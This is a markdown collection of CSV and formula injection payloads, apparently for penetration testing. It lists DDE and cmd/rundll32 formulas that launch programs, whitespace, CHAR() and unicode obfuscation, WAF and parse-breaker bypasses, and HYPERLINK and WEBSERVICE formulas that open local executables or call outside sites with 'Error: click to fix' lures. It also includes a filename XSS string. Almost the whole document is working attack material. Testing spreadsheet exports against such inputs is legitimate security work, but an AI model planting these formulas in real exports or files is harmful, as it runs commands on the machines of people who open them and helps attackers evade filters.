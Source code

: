 # CSV Injection Payload Collection

This is a curated list of CSV injection payloads used during security testing. The list includes basic to advanced variations, obfuscation tricks, and bypass techniques for different scenarios including formula injection, DDE attacks, and file path abuse.

---

## 🧪 Basic Payloads

```csv
=rundll32|'URL.dll,OpenURL calc'!A
-1-rundll32|'URL.dll,OpenURL calc'!A
=rundll32|'URL.dll,OpenURL notepad'!A
=rundll32|'URL.dll,OpenURL https://google.com'!A1
@SUM(1+1)*cmd|' /C calc'!A0
=cmd|'/C calc'!A1@example.com
=2+5+cmd|' /C calc'!A0
+hack(cmd|'/c calc.exe'!A
=hack/cmd|'/c calc.exe'!A
-2+3+cmd|'/C calc'!A1
-1-cmd|'/C calc'!'A1'
--1-cmd|'/C calc'!'A1'
=cmd|'/C notepad'!'A1'
=cmd|'/C calc'!'A2'
=cmd|'/C mspaint'!'A2'
=    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A
```

---

## 🧾 Older Excel Versions

```csv
DDE("cmd";"/C calc";"!A0")A0 
=EXEC("calc.exe")
```

---

## 🛠 rundll32 DLL Variants

```csv
=rundll32|'shell32.dll,ShellExec_RunDLL calc'!A1
=rundll32|'zipfldr.dll,RouteTheCall calc'!A1
=rundll32|'shell32.dll,Control_RunDLL timedate.cpl'!A1
=rundll32|'shell32.dll,Control_RunDLL appwiz.cpl'!A1
```

---

## 🌀 Abnormal Variations

```csv
=cmd|'/c calc'!'a2',
\t=\tc\tm\td\t|'/C notepad'!'A2',
=\ncmd|'/C calc'!A1
"=cmd|'/C calc'!'A1'"
```

---

## 🧩 Parse Breakers & Bypasses

### 🔹 Short Format Bypass

```csv
parsebreaker" ;,=cmd|'/C notepad'!'A1'
parsebreaker",=cmd|'/C notepad'!'A1''" ;,=cmd|'/C notepad'!'A2'
```

### 🔹 Polyglot / WAF Bypass

```csv
=cmd|'/C notepad'!'A1';0x09=cmd|'/C notepad'!'A2',0x0D=cmd|'/C notepad'!'A3';=cmd|'/C notepad'!'A4'=cmd|'/C notepad'!'A5''" ;,=cmd|'/C notepad'!'A6'
=cmd|'/C notepad'!'A0';=cmd|'/C notepad'!'A1';0x09=cmd|'/C notepad'!'A2';-1-cmd|'/C notepad'!'A3';0x0D-1-cmd|'/C notepad'!'A4';=cmd|'/C notepad'!'A5'=cmd|'/C notepad'!'A6''" ;,=cmd|'/C notepad'!'A7'
=cmd|'/C notepad'!'A1';0x09=cmd|'/C notepad'!'A2',\---1-cmd|'/C notepad'!'A3';@cmd|'/C notepad'!'A4'+cmd|'/C notepad'!'A5''" ;,=cmd|'/C notepad'!'A6'
```

---

## 📛 Escaped or Newline Payloads

```csv
\---1-cmd|'/C calc'!'A1'
\t--1-cmd|'/C calc'!'A1'
\"--1-cmd|'/C calc'!'A1'
\n--4-cmd|'/C calc'!'A1'
\r=cmd|' /C calc'!A1
\0=cmd|' /C calc'!A1
\r\",;=cmd|' /C calc'!A1
```

---

## 🧼 Zero-Width Marker Obfuscation

```csv
\u200B=cmd|' /C calc'!A0
\u00A0=cmd|' /C calc'!A1
\u200B=cmd|' /C calc'!A1
```

---

## ☣️ Dangerous Without Formula

These values can trigger execution by just clicking the cell:

```csv
file:///C:/Windows/System32/calc.exe
```

---

## 🚫 If Pipe (`|`), `cmd`, or Slash (`/`) Are Blocked

```csv
+HYPERLINK("file:///C:/Windows/System32/notepad.exe")
+HYPERLINK(CHAR(34)&file:///C:/Windows/System32/notepad.exe&CHAR(34))
@HYPERLINK(CHAR(34)&"file:///C:/Windows/System32/notepad.exe"&CHAR(34))
=HYPERLINK(T("file:///C:/Windows/System32/cmd.exe"), "ClickMe")
@HYPERLINK(\"file:///C:/Windows/System32/notepad.exe\")
@HYPERLINK(""file:///C:/Windows/System32/notepad.exe"")
=HYPERLINK("http://google.com", "Error: click to fix")
=HYPERLINK("https://google-web-pen-testing.vercel.app/", "Error: click to fix")
+HYPERLINK(\"http:\"&CHAR(47)&CHAR(47)&\"bing.com\"&CHAR(47)&\"payload\")
=WEBSERVICE("http://google.com")
=WEBSERVICE("https://google-web-pen-testing.vercel.app/")
=WEBSERVICE("http://bing.com")
```

---

## 🔢 CHAR() Obfuscation Variants

```csv
@HYPERLINK(CHAR(102)&CHAR(105)&CHAR(108)&CHAR(101)&CHAR(58)&CHAR(47)&CHAR(47)&CHAR(67)&CHAR(58)&CHAR(47)&CHAR(87)&CHAR(105)&CHAR(110)&CHAR(100)&CHAR(111)&CHAR(119)&CHAR(115)&CHAR(47)&CHAR(83)&CHAR(121)&CHAR(115)&CHAR(116)&CHAR(101)&CHAR(109)&CHAR(51)&CHAR(50)&CHAR(47)&CHAR(110)&CHAR(111)&CHAR(116)&CHAR(101)&CHAR(112)&CHAR(97)&CHAR(100)&CHAR(46)&CHAR(101)&CHAR(120)&CHAR(101))

@HYPERLINK("file:///C:/Windows/"&CHAR(83)&"ystem32/cmd.exe")

@HYPERLINK("file:///C:"&CHAR(47)&"Windows"&CHAR(47)&"System32"&CHAR(47)&"cmd.exe")

@WEBSERVICE(CHAR(104)&CHAR(116)&CHAR(116)&CHAR(112)&CHAR(115)&CHAR(58)&CHAR(47)&CHAR(47)&CHAR(119)&CHAR(119)&CHAR(119)&CHAR(46)&CHAR(103)&CHAR(111)&CHAR(111)&CHAR(103)&CHAR(108)&CHAR(101)&CHAR(46)&CHAR(99)&CHAR(111)&CHAR(109))
```

### chained payload
```csv
=HYPERLINK(CONCAT(CHAR(102),CHAR(105),CHAR(108),CHAR(101),CHAR(58),CHAR(47),CHAR(47),CHAR(47),CHAR(67),CHAR(58),CHAR(47),CHAR(87),CHAR(105),CHAR(110),CHAR(100),CHAR(111),CHAR(119),CHAR(115),CHAR(47),CHAR(83),CHAR(121),CHAR(115),CHAR(116),CHAR(101),CHAR(109),CHAR(51),CHAR(50),CHAR(47),CHAR(99),CHAR(109),CHAR(100),CHAR(46),CHAR(101),CHAR(120),CHAR(101)),"Open Command Prompt")
=T(CHAR(102)&CHAR(105)&CHAR(108)&CHAR(101)&CHAR(58)&CHAR(47)&CHAR(47)&CHAR(47)&CHAR(67)&CHAR(58)&CHAR(47)&CHAR(87)&CHAR(105)&CHAR(110)&CHAR(100)&CHAR(111)&CHAR(119)&CHAR(115)&CHAR(47)&CHAR(83)&CHAR(121)&CHAR(115)&CHAR(116)&CHAR(101)&CHAR(109)&CHAR(51)&CHAR(50)&CHAR(47)&CHAR(99)&CHAR(109)&CHAR(100)&CHAR(46)&CHAR(101)&CHAR(120)&CHAR(101))

=HYPERLINK(G2,"Click Me")
```

#### example of a multi chained csv on multiple cells
![csvi-chained-example](https://github.com/thiem-dev/xssCat/blob/main/MyPayloadAll/images-examples/chained-csvi-example.png?raw=true)

---

## 🧠 File Name Exploits

```csv
=HYPERLINK("google.com", "Error: click to fix") .csv
@SUM(1+1)+cmd|' C calc'!A0.jpg
"; alert('XSS');//.jpg
```

---

## 🌐 Unicode / Encoding Bypass

```csv
＝cmd|/C calc!A1
+cmd|/C calc!A1
\xEF\xBB\xBF\t=cmd|'/C calc'!A0
“＝cmd|'/C calc'!A0”
cmd|'/C calc'!A0,?
```

---

## 🧪 Payloads That Break Excel Logic

```csv
1e3
1e4
+1E+9
-123456
```

---

## 📚 Resources

- [HackTricks: CSV/Excel Injection](https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection)

---

